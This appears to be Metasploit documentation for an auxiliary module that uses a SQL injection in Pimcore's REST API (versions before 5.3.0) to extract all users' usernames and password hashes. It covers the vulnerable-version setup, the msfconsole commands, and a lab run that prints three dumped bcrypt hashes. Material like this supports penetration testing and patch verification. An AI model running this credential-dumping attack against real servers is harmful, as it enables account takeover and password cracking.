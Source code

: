 ## Description

  This module exploits a SQL injection vulnerability in Pimcore's REST web service for versions below 5.3.0. By using a UNION query on the `object inquire` service, this module can steal the usernames and password hashes of all users of Pimcore.

  Pimcore begins to create password hashes by concatenating a user's username, the name of the application, and the user's password like so: `USERNAME:pimcore:PASSWORD`.
  The resulting string is then used to generate an MD5 hash, and then that MD5 hash is used to create the final hash, which is generated using PHP's built-in `password_hash` function.

## Vulnerable Application

  Installing composer and running `php composer.phar create-project pimcore/pimcore=5.2.3 ./myproject --no-dev` will install Pimcore and most of its dependencies.
  The installation process will give notifications on missing PHP extensions that are required. Additionally, a web server and database must be set up.

  Source for Pimcore v5.2.3 can also be found [here](https://www.exploit-db.com/apps/7c759b5b7f2896a7d5461582e149bcaa-pimcore-5.2.3.tar.gz)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use auxiliary/sqli/oracle/pimcore_list_creds`
  3. Do: `set RHOSTS [IP]`
  3. Do: `set TARGETURI [URI]`
  3. Do: `set APIKEY [KEY]`
  4. Do: `run`
  5. You should get a list of Pimcore user credentials

## Options

  **APIKEY**

  Valid API key for accessing Pimcore's REST API in order to perform the injection.

## Scenarios

### Tested on Ubuntu 18.04.1 Running Pimcore v5.2.3


  ```
  msf5 > use auxiliary/sqli/oracle/pimcore_list_creds
  msf5 auxiliary(sqli/oracle/pimcore_list_creds) > set rhosts 192.168.37.246
  rhosts => 192.168.37.246
  msf5 auxiliary(sqli/oracle/pimcore_list_creds) > set apikey 77369eee2b728e0efbb2c296549aea09b91d3751c26a3c27ce0b1dbb6bfaf11b
  apikey => 77369eee2b728e0efbb2c296549aea09b91d3751c26a3c27ce0b1dbb6bfaf11b
  msf5 auxiliary(sqli/oracle/pimcore_list_creds) > run

  [+] Credentials obtained:
  [+] admin : $2y$10$sBaD3EOAm/i1F3Mm/fwseeq3nyoacdlUt4NkVLZUgJ4FTReJSKIbe
  [+] secondUser : $2y$10$DYaFjrYnajTmVhhXSmsh8O5rLrQuPt8Q9Dto3vaQ4747K5kSvWEPy
  [+] blah : $2y$10$sJWr.puqXnF5T3DI3L1oqu3aIJRjUtHs9.2pgHEkevEdGrGvO1cBC
  [*] Auxiliary module execution completed
  ```
